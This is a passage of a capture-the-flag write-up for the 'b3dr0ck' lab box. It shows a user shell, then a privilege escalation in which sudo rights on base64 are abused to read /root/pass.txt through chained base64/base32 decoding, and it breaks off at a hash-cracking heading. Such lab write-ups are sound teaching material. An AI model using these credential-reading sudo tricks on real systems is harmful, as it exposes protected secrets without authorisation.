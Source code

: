   ```
fred
fred@b3dr0ck:~$ id
uid=1000(fred) gid=1000(fred) groups=1000(fred),24(cdrom),30(dip),46(plugdev),1002(help)
fred@b3dr0ck:~$ ls -l
total 4
-rw------- 1 fred fred 38 Apr 29 06:30 fred.txt
fred@b3dr0ck:~$ cat fred.txt
THM{REDACTED}
```

## **<strong><font color="Brown">Vertical Privilege Escalation</font></strong>**
***
### **<strong><font color="DarkCyan">sudo -l</font></strong>**


* As always, let's start off our enumeration by running ```sudo -l``` :
<figure><center><img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/My-Files/main/kali6.png" alt=""></center><center><em><figcaption>sudo -l command</figcaption></em></center></figure>

* , As you can see, our user Fred, can use ```sudo``` to ```base64``` and ```base32``` encode ```pass.txt``` file located in the ```/root``` directory.

### **<strong><font color="DarkCyan">Encoding/Decoding</font></strong>**

* We can ```base64``` encode the ```/root/pass.txt``` file and then ```base64``` decode it to see its content :
```console
fred@b3dr0ck:~$ sudo base64 /root/pass.txt | base64 --decode
LFKEC52ZKRCXSWKXIZVU43KJGNMXURJSLF2OPJAXUTLNJJVU2RCWNBGXURT[... snip ...]
```

* What we have here is ```base32``` encoded string, let's decode it by sending the standard output as an input to ```base32 --decode``` command :
```console
fred@b3dr0ck:~$ sudo base64 /root/pass.txt | base64 --decode | base32 --decode
YTAwYTEyYWFkNmI3YzE2YmYwNzAzMmJkM[... snip ...]
```

* This time, we have a ```base64``` encoded string, let's decode it by sending one more time the standard output as an input to ```base64  --decode``` command :
```console
fred@b3dr0ck:~$ sudo base64 /root/pass.txt | base64 --decode | base32 --decode | base64 --decode
a00a12aad6b7c16bf07032[... snip ...]
```

> ***You can use <a href="https://cyberchef.org/" target="_blank"><strong>Cyberchef</strong></a> as an alternative way to decode the /root/pass.txt file by using the magic recipe***
<figure><center><img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/My-Files/main/Browse2.png" alt=""></center><center><em><figcaption>Decoding using Cyberchef online Tool</figcaption></em></center></figure>

### **<strong><font color="DarkCyan">Hash Cracking</font></strong>**
